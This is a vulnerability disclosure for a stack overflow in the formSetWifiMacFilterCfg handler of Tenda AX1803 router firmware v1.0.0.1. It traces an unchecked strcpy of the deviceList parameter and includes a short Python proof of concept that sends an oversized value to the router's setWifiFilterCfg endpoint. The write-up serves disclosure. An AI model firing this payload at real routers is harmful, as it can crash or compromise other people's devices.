




# Tenda AX1803 formSetWifiMacFilterCfg
### Overview
vendor: Tenda

product: AX1803

version: v1.0.0.1

type: Stack Overflow
### Vulnerability Description
Tenda AX1803 v1.0.0.1 were discovered to contain a stack overflow via the deviceList parameter in the formSetWifiMacFilterCfg function.

### Vulnerability details
In function formSetWifiMacFilterCfg line 64, it reads in a user-provided parameter `deviceList`. The variable `s_10` is passed as a parameter to the `sub_5E3A0` function. Function `sub_5E3A0` calls function `sub_5E250`, where the first parameter is variable `s_3`(actually the variable `s_10`) and the second parameter is the stack-based buffer `s_2`. In function `sub_5E250`, the variable `s_1`(actually the variable `s_10`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually the variable `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.






### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setWifiFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```